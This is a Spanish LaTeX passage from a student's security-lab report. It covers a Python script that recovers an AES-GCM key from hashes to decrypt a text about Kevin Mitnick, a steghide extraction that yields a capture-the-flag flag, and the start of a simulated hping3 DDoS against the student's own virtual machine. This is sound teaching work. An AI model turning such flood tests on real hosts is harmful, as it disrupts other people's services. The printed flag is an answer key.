\section*{Ejercicio 4: Una clave y un secreto en AES}

La lógica del script \texttt{solution.py} es la siguiente: 

\begin{itemize}
	\item Cargamos los archivos \texttt{file.txt}, \texttt{hashes.txt} y \texttt{cipher.txt} y limpiamos su contenido 
	(quitamos acentos, pasamos a minúsculas...) para trabajar únicamente con un alfabeto de 26 letras sin ruido.

	\item Generamos los primeros 50 números primeros con \texttt{sympy} y los usamos como guía para armar cadenas de
	50 letras de longitud. Para cada primo $p$ se toma una letra en una posición determinada del texto y, en algunas variantes, 
	además le aplica un desplazamiento César dependiente de $p$-2.

	\item A c/u de estas candidatas se le prueba con algunas combinaciones con la palabra base \texttt{kevinmitnick}, mezclando usando
	Vigenére por suma/resta y una intercalación de caracteres. 

	\item Para cada una de estas combinaciones se calcula su SHA-256 y se compara con los hashes dados en \texttt{hashes.txt}.
	Cuando alguno coincide se derivan las claves necesarias para desencriptar \texttt{cipher.txt} con AES‑GCM (nonce de 12 bytes); 

	\item Si la autenticación pasa, se imprime el mensaje en la pantalla.
\end{itemize}

El código completo del script se encuentra a continuación:
	
\begin{lstlisting}[language=python]

import hashlib
import unicodedata

from cryptography.hazmat.primitives.ciphers.aead import AESGCM
from sympy import primerange


def ejercicio_cuatro() -> None:

    try:
        with open("file.txt", "r", encoding="utf-8") as f:
            texto = f.read()
        with open("hashes.txt", "r", encoding="utf-8") as f:
            # Cargamos los hashes validos en un set para busqueda eficiente.
            # Se asume que cada linea del archivo contiene un hash SHA-256 valido.
            hashes_validos = set(line.strip() for line in f if line.strip())
        # Cargamos los datos cifrados en formato hexadecimal, eliminando cualquier espacio o salto de linea.
        with open("cipher.txt", "r", encoding="utf-8") as f:
            cipher_hex = f.read().replace("\n", "").strip()
    except FileNotFoundError as e:
        print(f"[-] Error: Archivo no encontrado - {e}")
        return

    # Se eliminan acentos, simbolos y saltos de linea.
    # Conservamos unicamente letras minusculas (a-z) para asegurar un bloque continuo.
    texto_norm = (unicodedata.normalize("NFKD", texto).encode("ascii", "ignore").decode("utf-8"))
    texto_filtrado = "".join(c for c in texto_norm if c.isalpha()).lower()
    
    # Generamos los primeros 50 numeros primos utilizando sympy.primerange
    primos = [p for _, p in zip(range(50), primerange(2, 1000))]
    palabra_base = "kevinmitnick"

    # El uso de `% len(texto_filtrado)` garantiza que el texto funcione como un "loop infinito".
    # por que si el indice calculado excede la longitud del texto, simplemente vuelve al inicio.
    opciones_extraccion = [
        # A: El indice extraido es el numero primo restandole 2.
        "".join(texto_filtrado[(p - 2) % len(texto_filtrado)] for p in primos),
        # B: Se usa el numero primo como indice, y se aplica un desplazamiento Cesar de (p-2).
        "".join(
            chr((ord(texto_filtrado[p % len(texto_filtrado)]) - 97 + (p - 2)) % 26 + 97)
            for p in primos
        ),
        # C: Indice en (p-2) y desplazamiento Cesar en (p-2).
        "".join(chr((ord(texto_filtrado[(p - 2) % len(texto_filtrado)]) - 97 + (p - 2)) % 26+ 97)
            for p in primos
        ),
    ]

    clave_correcta = None
    hash_correcto = None

    for extraido in opciones_extraccion:
        # Exploramos las diferentes formas de "mezclar" el texto con la palabra base "kevinmitnick"
        mezclas = [
            extraido,
            # Mezcla por suma (Estilo Cifrado Vigenere). Por ejemplo, si extraido = "abcde..." y
            # palabra_base = "kevinmitnick", la mezcla seria: "kkbcvindemnitck..." 
            # (alternando caracteres de ambos strings pero sumando sus valores).
            "".join(chr((ord(extraido[i])- 97+ ord(palabra_base[i % len(palabra_base)])- 97)% 26+ 97)
                for i in range(50)),
            # Mezcla por resta. Por ejemplo, si extraido = "abcde..." y palabra_base = "kevinmitnick", la mezcla seria:
            # "akbcvindemnitck..." (alternando caracteres de ambos strings pero restando sus valores).
            "".join(chr((ord(extraido[i]) - ord(palabra_base[i % len(palabra_base)])) % 26+ 97)
                for i in range(50)),
            # Se toma el caracter i-esimo de 'extraido' y se concatena con el caracter i-esimo de 'palabra_base' (ciclico).
            # Por ejemplo, si extraido = "abcde..." y palabra_base = "kevinmitnick", la mezcla seria:
            # "akebcvindemnitck..." (alternando caracteres de ambos strings)
            "".join(extraido[i] + palabra_base[i % len(palabra_base)] for i in range(25)),
        ]

        # Comparamos el SHA-256 de cada combinacion generada contra la lista de control
        for candidata in mezclas:
            h = hashlib.sha256(candidata.encode()).hexdigest()
            if h in hashes_validos:
                clave_correcta = candidata
                hash_correcto = h
                break
        if clave_correcta:
            break

    if not clave_correcta:
        print("[-] No se encontro ninguna clave que coincida con los hashes.")
        return

    print(f"\n[+] Clave confirmada: {clave_correcta}")
    print(f"[+] Hash coincidente : {hash_correcto}")

    try:
        data = bytes.fromhex(cipher_hex)
    except ValueError:
        print("[-] Error: cipher.txt no contiene un formato hexadecimal valido.")
        return

    nonce = data[:12]  # AES-GCM estandar usa un Nonce (IV) de 12 bytes
    ciphertext = data[12:]  # El resto del bloque es el texto cifrado + Tag de autenticacion

    llaves_a_probar = {
        "Hash Directo a Bytes (Lectura Literal)": bytes.fromhex(hash_correcto),
        "Doble Hash (Lectura sugerida por Hint)": hashlib.sha256(hash_correcto.encode()).digest(),
        "Derivacion Original (Hash de Clave Extr)": hashlib.sha256(clave_correcta.encode()).digest(),
    }

    exito = False
    for _, key_bytes in llaves_a_probar.items():
        aesgcm = AESGCM(key_bytes)
        try:
            # Si decrypt() no lanza la excepcion 'InvalidTag', significa que la llave derivo exitosamente.
            decrypted = aesgcm.decrypt(nonce, ciphertext, None)
            print("[+] Mensaje Descifrado:\n")
            print(f"{decrypted.decode('utf-8')}")
            exito = True
            break
            # La llave es incorrecta para este ciphertext. Ignoramos y probamos la siguiente.
        except Exception:
            continue

    if not exito:
        print("[-] Error: Ninguna de las llaves derivadas logro descifrar el mensaje.")

if __name__ == "__main__":
    ejercicio_cuatro()

\end{lstlisting}

Y el mensaje desencriptado es el siguiente:

\begin{verbatim}
Mitnick gained unauthorized access to a computer network in 1979, at 16, when a friend 
gave him the telephone number for the Ark, the computer system that Digital Equipment Corporation 
(DEC) used for developing its RSTS/E operating system software. He broke into DEC's computer 
network and copied the company's software, a crime for which he was charged and convicted in 1988. 
He was sentenced to 12 months in prison followed by three years of supervised release. Near the end 
of his supervised release, Mitnick hacked into Pacific Bell voicemail computers. After a warrant was 
issued for his arrest, Mitnick fled, becoming a fugitive for two-and-a-half years.
\end{verbatim}

\section*{Ejercicio 5: El gran secreto dentro de una imagen}

\begin{tcolorbox}[title=Info. VM 1]
OS: Kali GNU/Linux Rolling x86\_64\\
Kernel version: 6.19.1+kali-amd64\\
Núcleos: 2 x Intel Core i7-9750H\\
RAM: 2GB\\
IP: 192.168.1.230\\
\end{tcolorbox}

Para este ejercicio se utilizó la imágen \texttt{mao-shi.jpg} indicada en el repositorio de la tarea y
se ocuparon los mismos comandos mencionados en el mismo. 

Primero, tras la instalación de \texttt{steghide} y \texttt{jp2a}, se ejecutó el comando 
\texttt{steghide extract -sf mao-shi.jpg}, obteniendo lo siguiente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 5/one.png}
    \caption{Obtención de archivos ocultos en mao-shi.jpg}
    \label{fig:mao-shi}
\end{figure}

Luego, aunque el archivo \texttt{silent.sh} genera un archivo html con el que podemos continuar la búsqueda
de la bandera escondida, se optó por simplemente hacer \texttt{cat silent.sh} para visualizar en pantalla 
el contenido del archivo, encontrando al final del archivo la bandera FLAG\{s73g4n0graphy\_15\_hidd3n\}


\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 5/two.png}
    \caption{Obtención de la bandera escondida en index.html}
    \label{fig:bandera-estenografia}
\end{figure}

\section*{Ejercicio 6: Una gran tormenta se avecina}

Nuevamente en la VM de Kali se ejecutan los comandos de instalación y activación de \texttt{apache2, vsftpd, ssh} y 
\texttt{wireshark}, y se configuran los servicios de apache2 y vsftpd para que escuchen en el puerto 8080. Para el caso
de \texttt{hping3} como se instaló en un host MacOS se instaló primero \texttt{macports} y se instaló la herramienta
posteriormente. 

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{../../Ejercicio 6/services.png}
    \caption{Servicios apache2, vsftpd y ssh en la VM de Kali activos}
    \label{fig:servicios-apache-vsftpd-ssh}
\end{figure}

Luego, hacemos la simulación del ataque DDos con \texttt{hping3} desde el host MacOS a la VM de Kali, obteniendo lo siguiente:

\begin{figure}[H]
    \centering
